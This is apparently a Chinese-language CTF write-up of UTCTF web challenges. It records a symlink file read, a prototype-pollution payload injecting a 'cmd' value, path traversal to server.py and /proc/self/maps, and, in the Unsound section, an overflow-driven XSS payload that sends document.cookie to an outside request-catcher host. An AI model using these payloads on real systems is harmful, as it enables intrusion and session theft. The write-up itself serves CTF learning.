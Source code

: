# web
### Beginner: Off-Brand Cookie Clicker
前端题,直接js找接口
### Schrödinger
zip软链接读取文件
`mklink /home/xxxx/flag.txt flag`

### Easy Mergers v0.1
一个创建公司(json)并允许使用merge合并,应该是原型链污染,没找到要污染的属性
payload
`{"attributes":["__proto__"],"values":[{"cmd":"whoami"}]}`
污染cmd属性
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240401194743.png)

### Home on the Range
主页只有一个 **Directory listing of www**
文件夹下有一个hello.html,访问只有一个hello
Server:BaseHTTP/0.6 Python/3.12.2

---
没想到真的是../路径穿越,偷懒使用浏览器url编码,还得是postman或者burp
读取服务器源码
`http://guppy.utctf.live:7884/../../server.py`
根据代码猜测会跟http range头有关
设置`bytes=100-500`可以读取指定文件的字节范围
读取当前进程的内存,并使用range获取指定范围
读取进程内存映射
`/proc/self/maps`
选择rw区域并脚本run

### Unsound
一个rust写的web页面,可以加密和解密数据,加密在前端,解密在后端且不返回解密得到的数据,前端还是wasm,用了wabt结果还反编译不了

---
1. the decrypt has a C-struct in it with a buffer for the decrypted message of 300bytes; if you overflow this, you'll overwrite the success-message.
2. payload to encrypt:
```
fill_buffer = 'A'*300
xss_payload = '''<img src=x onerror="fetch('https://matthias.requestcatcher.com/test?c=' + document.cookie,{ method:'GET'})" >'''
data_to_encrypt = fill_buffer + xss_payload
```
存在溢出,让内部服务器触发xss去带出cookie

3. Then decrypt the encrypted stuff and catch the fetch request somehow
 
xss triggers, because if you add the img-tag to the dom, it tries to load the img, fails and thus triggers the js
you'll receive 2 requests to your server; first is from your local machine, running the wasm; second one (roughly 12 seconds later - when I tested it) was the backend server requesting it


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-01   19:42